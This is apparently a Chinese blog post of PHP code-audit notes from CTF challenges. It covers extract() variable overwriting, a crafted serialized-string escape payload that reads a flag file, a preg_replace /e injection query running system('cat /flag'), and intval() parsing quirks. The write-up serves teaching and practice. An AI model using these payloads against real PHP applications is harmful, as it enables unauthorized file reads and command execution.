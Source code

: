 ```yaml
---
layout: post
title: 代码审计知识合集
categories: [web,php]
---
```

## $_SESSION的使用
>$_SESSION是访客与整个网站交互过程中一直存在的公有变量  
如果post传参为`_SESSION[flag]=123`，那么`$_SESSION["user"]`和`$_SESSION["function"]`的值都会被覆盖。  
extract()函数的变量覆盖，使得上面两个参数可控  


```php
<?php
$_SESSION["user"] = 'guest';
$_SESSION['function'] ='123';
echo '覆盖前：';
var_dump($_SESSION);
echo "<br>";
extract($_POST);
echo '覆盖后：';
var_dump($_SESSION);
```

## 反序列化的字符串逃逸(变少)

字符变少就有逃逸的空间

### file_get_content()可以读取敏感文件

## [安洵杯 2019]easy_serialize_php

查看源码，首先filter()对字符进行过滤，造成了字符串逃逸的空间；

![截图](/pic/189f4d43a70affced4e4bc3492565687.png)

extract()函数的变量覆盖，使得上面两个参数可控

![截图](/pic/00cd59ba640944bba3726c18be23bbc0.png)

要让guest_img.png逃逸，把需要读的文件顶上去

题目告诉我们可以通过phpinfo()查找到`d0g3_f1ag.php`,此时需要将这个文件通过`file_get_content()`来读取，那么就把`img`换成这个`d0g3_f1ag.php`就好啦

<br/>

现在开始序列化

```php
首先进行第一次
<?php
	$_SESSION["user"] = 'xx';
	$_SESSION['function'] = 'xxx';
	$_SESSION['img'] = base64_encode('d0g3_f1ag.php');
	echo serialize($_SESSION);
?>
```

> a:3:{s:4:"user";s:2:"xx";s:8:"function";s:3:"xxx"`;s:3:"img";s:20:"ZDBnM19mMWFnLnBocA==";}`

```php
紧接着进行第二次
<?php
	$_SESSION["user"] = 'phpphpflagflagflagflag';
	//由于";s:8:"function";s:57:共有22个字符，所以要把user也凑成可以替代的22个
	$_SESSION['function'] = ';s:3:"img";s:20:"ZDBnM19mMWFnLnBocA==";s:1:"a";s:2:"aa";}';
	//由于有三个变量，所以自己构造一个s:1:"a";s:2:"aa";
	$_SESSION['img'] = base64_encode('d0g3_f1ag.php');
	echo serialize($_SESSION);
?>


//a:3:{s:4:"user";s:22:"phpphpflagflagflagflag";
//s:8:"function";s:57:";s:3:"img";s:20:"ZDBnM19mMWFnLnBocA==";s:1:"a";s:2:"aa";}";
//s:3:"img";s:20:"ZDBnM19mMWFnLnBocA==";}
```

> 这样子flag.php就读出来信息啦

![截图](/pic/1c20a5e4cd46dd1990001b98705efd52.png)

![截图](/pic/667fc7de6d7414a27835aae906056bbb.png)

接着将文件名base64编码成`L2QwZzNfZmxsbGxsbGFn`替换进去就行了

刚刚好也是20个字符串，巧了

![截图](/pic/636b73757fd76f08327477102ed80a39.png)

## [BJDCTF2020]ZJCTF，不过如此

preg_replace()的/e模式存在命令执行漏洞
因此构造：

> ?\S%2b=${getFlag()}&cmd=system('cat /flag');

<br/>

## [WUSTCTF2020]朴实无华

intval函数在处理十六进制时会出现问题，当作字符串来处理，但是intval(字符串+1)时会转变为数字

intval()函数的使用方法，当函数中用字符串方式表示科学计数法时，函数的返回值是科学计数法前面的一个数，而对于科学计数法加数字则会返回科学计数法的数值

```php
<?php
$num='2e4';
echo(intval($num));
echo('<br>');
echo(intval($num+1));
?>

输出：
2
20001
```

